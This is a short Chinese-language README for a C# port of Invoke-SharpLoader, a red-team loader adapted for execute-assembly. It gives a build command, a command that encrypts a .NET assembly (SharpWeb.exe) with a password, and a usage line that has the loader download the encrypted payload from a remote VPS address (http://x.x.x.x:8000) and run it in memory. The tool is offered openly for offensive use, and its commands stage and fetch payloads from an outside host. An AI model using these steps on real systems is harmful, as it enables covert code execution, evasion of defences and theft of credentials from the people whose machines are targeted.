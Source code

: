 原版项目：https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader

根据该项目改造为c#代码，以适配execute-assembly使用，更方便红队日常工作

项目编译

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe Invoke-SharpLoader.csproj


使用方法

需要先加密

Invoke-SharpEncrypt -file C:\c#程序集\SharpWeb.exe -password mypassword -outfile C:\c#程序集\SharpWeb.enc

放到vps的远端访问目录  

Invoke_SharpLoader.exe http://x.x.x.x:8000/SharpWeb.enc mypassword args
![image](https://github.com/user-attachments/assets/44dd4fec-c0fa-44d3-a038-04aac94b0052)


